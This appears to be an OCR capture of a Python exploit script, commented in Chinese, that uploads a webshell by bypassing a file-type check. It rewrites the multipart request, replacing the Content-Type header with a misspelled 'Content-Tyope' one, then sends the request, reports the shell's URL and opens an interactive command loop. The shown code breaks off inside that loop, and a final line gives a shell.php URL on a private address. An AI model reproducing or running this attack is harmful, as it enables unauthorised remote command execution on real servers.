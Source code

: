 ```
    # --- 关键的绕过步骤 ---
    # 1. 使用requests库准备一个请求对象，但先不发送
    session = requests.Session()
    req = requests.Request('POST', upload_url, params=params, files=files)
    prepared_req = req.prepare()

    # 2. prepared_req.body是bytes类型，包含了整个multipart/form-data的内容
    #    我们将其解码为字符串，进行替换操作，然后再编码回去
    body_str = prepared_req.body.decode('utf-8', errors='ignore')

    # 3. 将 "Content-Type" 替换为 "Content-Tyope"，这是漏洞的核心
    modified_body_str = body_str.replace('Content-Type: image/jpeg', 'Content-Tyope: image/svg+xml')
    prepared_req.body = modified_body_str.encode('utf-8')
    
    # 4. 更新Content-Length头，因为我们的修改可能导致长度变化（尽管这里没有）
    prepared_req.headers['Content-Length'] = str(len(prepared_req.body))

    print("[+] 请求已被修改，注入 'Content-Tyope' 绕过代码。")
    print("[*] 正在发送恶意请求...")

    try:
        # 5. 发送我们手动修改过的请求
        response = session.send(prepared_req, verify=False, timeout=15)

        # 检查响应是否成功
        if response.status_code == 200:
            print("[+] 服务器返回 200 OK，可能上传成功！")
            try:
                # 解析服务器返回的JSON
                response_json = response.json()
                file_path = response_json['files'][0]['path']
                
                # 构建完整的webshell URL
                webshell_url = urljoin(target_url, f"{file_path}")
                print("\n" + "="*60)
                print(f"[\033[1;32mSUCCESS\033[0m] Webshell上传成功!")
                print(f"[\033[1;32mURL\033[0m]: {webshell_url}")
                print("="*60 + "\n")
                return webshell_url
            except (json.JSONDecodeError, KeyError, IndexError):
                print("[-] 上传成功，但无法从响应中解析文件路径。")
                print("[-] 响应内容: ", response.text)
                return None
        else:
            print(f"[-] 上传失败，服务器返回状态码: {response.status_code}")
            return None

    except requests.exceptions.RequestException as e:
        print(f"[-] 请求发生错误: {e}")
        return None

def interactive_shell(webshell_url):
    """提供一个交互式的命令执行环境"""
    print("[*] 启动交互式Webshell... (输入 'exit' 退出)")
    session = requests.Session()
    try:
        while True:
            cmd = input("\033[1;34mcmd > \033[0m")
            if cmd.lower() in ['exit', 'quit']:
                break
            
            # 发送GET请求来执行命令
```

[URL]: http://192.168.205.128:8000/private/uploads/JEk-Wwl_SpBQMaPvCw3mgBcAB1m7bw/shell.php